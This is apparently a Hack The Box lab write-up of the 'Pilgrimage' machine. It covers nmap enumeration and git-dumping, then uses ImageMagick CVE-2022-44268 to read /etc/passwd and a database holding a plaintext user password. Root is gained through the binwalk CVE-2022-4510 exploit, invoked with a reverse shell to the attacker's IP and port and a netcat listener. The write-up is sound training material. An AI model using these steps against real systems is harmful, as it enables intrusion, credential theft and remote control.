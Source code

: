 ```yaml
---
type: box
finished: "true"
writeup: "true"
---
```

![pilgrimage](Pilgrimage.png)
# Enumeration
with the nmap command `nmap -p- -sV -sC 10.10.11.219` we got this result:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
|_  256 d14e293c708669b4d72cc80b486e9804 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
So we know there's a SSH server, and a http server running nginx 1.18.0.
Going to the website we come to this page:
![website](writeups/HTB/BOX/Pilgrimage/images/website.png)

We have the option to log in, register or upload an image where it shows the shrunk version of that image. If we make an account and then log in we get a "Dashboard" tab that allows us to see all of the previous images that we have uploaded to the website.

# Git-Dumping
Here I was stuck for a while trying a bunch of stuff. Which is when I went back to enumeration. **Always go back to enumeration if you get stuck, don't tunnel vision because maybe you're missing something.** In my case I was missing an open .git repo on the 80 server. Since we didn't have the IP redirect link in our /etc/hosts nmap gave us this output `http-title: Did not follow redirect to http://pilgrimage.htb/` However if we run `nmap -p 80 -sV -sC 10.10.11.219` again, however this time only on port 80 while having the redirect in out /etc/hosts we get this output:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-title: Pilgrimage - Shrink Your Images
```

Now we know for sure there is a /.git/ folder on the server. Now we can use a tool like [Git dumper](https://github.com/arthaud/git-dumper)to extract all of the information from the git folder on to our own machine and take a look at the source code.

At first I thought there was a problem with the code, however everything seems sanitized. One thing we can keep in note for later though is that the databased is stored in `/var/db/pilgrimage` as we see in the code `$db = new PDO('sqlite:/var/db/pilgrimate');`.
![login](login.png)
But what is this `/var/ww/pilgimage.htb/magik`? Taking a close look at it by going into the git folder and going `./magik -version` we get this output:

```
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

Googling `ImageMagick 7.1.0-49` I came across [a vulnerability with ImageMagick 7.1.0](https://www.metabaseq.com/imagemagick-zero-days/) This vulnerability was is based upon the -resize command within Magick, exactly what we are looking for. If we insert arbitrary code into the image, give it to Magick and then redownload it, we will get the output into the resized image. Let's try it first by making it print out `/etc/password` of the server with this script: **[CVE-2022-44268](https://github.com/voidz0r/CVE-2022-44268)**.

# ARBITRARY REMOTE LEAK with [CVE-2022-44268](https://github.com/voidz0r/CVE-2022-44268)

When we did `cargo run "/etc/passwd"` on the file we got an image with code injected into it. When we upload it to the server and download the "shrunken" version of it we can run `identify -verbose {image}` to get the outputting hex values of our input. Inputting it to something like [CyberChef](https://gchq.github.io/CyberChef/) and converting it from hex to ascii we get this output:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Just for the fun of it I tried to also get the value of `/etc/shadow` however that did not get us any result because Magick is not allowed to read `/etc/shawdow`. What we can try is to **get the content of the `/var/db/pilgrimage` database as we saw from earlier.** Doing the same thing as earlier we get a bunch of hex values. Plugging that into cyberchef allows us to see the contents of it.

In a bunch of null values we get the sql code:
![table](table.png)

And *much* lower down we see this:
![usernames](usernames.png)

Our own account is which is the *creatively* named `asdfasd` with the password `asdf`.
More importantly we see the user `emily` from before with the password `abigchonkyboi123`. Classy.

With the knowledge that people use the same password everywhere, we can try to ssh into the machine with the username emily and password `abigchonkyboi123`.
![ssh](ssh.png)
**bingo**
Now we cat out the content of the user.txt.
# Privilege escalation with [CVE-2022-4510](https://www.exploit-db.com/exploits/51249)

Looking at the home directory we find some interesting files. Most notably pspy32 and binwalk_exploit.png. Looking at the pspy32 output we see that root is running something called `/sbin/malwarescan.sh`. Looking closer at that we see the following code:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

Here we see code being run every time something is changed in the `/var/www/pilgrimage.htb/shrunk/` directory with the help of the `inotifywait` command. We also see `/usr/local/bin/binwalk -e` being run on every file every time a change is done in that directory. Let's take a look at the binwalk version on this machine.

```
emily@pilgrimage:~$ binwalk -h                                                          

Binwalk v2.3.2                                                                          Craig Heffner, ReFirmLabs                                                               https://github.com/ReFirmLabs/binwalk     
```

If we look up ```binwalk v2.3.2``` we find a remote code execution vulnerbility is in binwalk version 2.3.2. Luckily the [script from exploit database](https://www.exploit-db.com/exploits/51249) is already downloaded on the machine in the `/tmp/` folder.

So all we have to do is to write is `python3 /tmp/51249.py catt.png {YOUR_IP} {YOUR_PORT}` and then start a netcat listener on that port. You will then get an image called `binwalk_exploit.png` in your folder and all you have to do now is copy it over with `cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/` and boom.

![root](root.png)

# We're in (conclusion)
This is definitely the hardest box easy box I've done on hack the box. I was stuck on the first step for a long while, when I randomly decided to run the nmap scan again and saw the /.git/ directory. Everything was pretty good from there though. This is probably the best box I've done on HTB to date. I loved getting the user flag immensely. The root flag was a bit tricky, but learning to read the pspy32 output helped a ton.